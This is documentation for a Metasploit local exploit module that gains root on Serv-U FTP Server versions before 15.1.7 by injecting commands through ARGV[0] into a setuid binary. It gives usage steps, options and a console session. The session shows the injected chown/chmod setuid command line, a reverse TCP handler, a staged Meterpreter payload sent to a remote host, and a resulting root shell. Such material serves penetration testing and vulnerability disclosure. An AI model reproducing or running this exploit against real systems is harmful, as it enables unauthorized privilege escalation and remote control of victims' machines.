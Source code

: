 ## Description

  This module attempts to gain root privileges on systems running
  Serv-U FTP Server versions prior to 15.1.7.

  The `Serv-U` executable is setuid `root`, and uses `ARGV[0]`
  in a call to `system()`, without validation, when invoked with
  the `-prepareinstallation` flag, resulting in command execution
  with root privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * Serv-U FTP Server version 15.1.6 (x64) on Debian 9.6 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/servu_ftp_server_prepareinstallation_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SERVU_PATH**

  Path to Serv-U executable (default: `/usr/local/Serv-U/Serv-U`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Debian 9.6 (x64)

  ```
  msf5 exploit(multi/handler) > back
  msf5 > use exploit/linux/local/servu_ftp_server_prepareinstallation_priv_esc 
  msf5 exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] bash shell is available
  [+] /usr/local/Serv-U/Serv-U is executable
  [+] /usr/local/Serv-U/Serv-U is setuid
  [*] Writing '/tmp/.24HnCiwSby' (277 bytes) ...
  [*] Executing command: bash -c 'exec -a "\";chown root /tmp/.24HnCiwSby;chmod u+s /tmp/.24HnCiwSby;chmod +x /tmp/.24HnCiwSby\"" /usr/local/Serv-U/Serv-U -prepareinstallation'
  [+] /tmp/.24HnCiwSby setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.250

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.250:58662) at 2019-06-28 23:46:48 -0400
  [-] Failed to delete /tmp/.24HnCiwSby: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > 
  ```

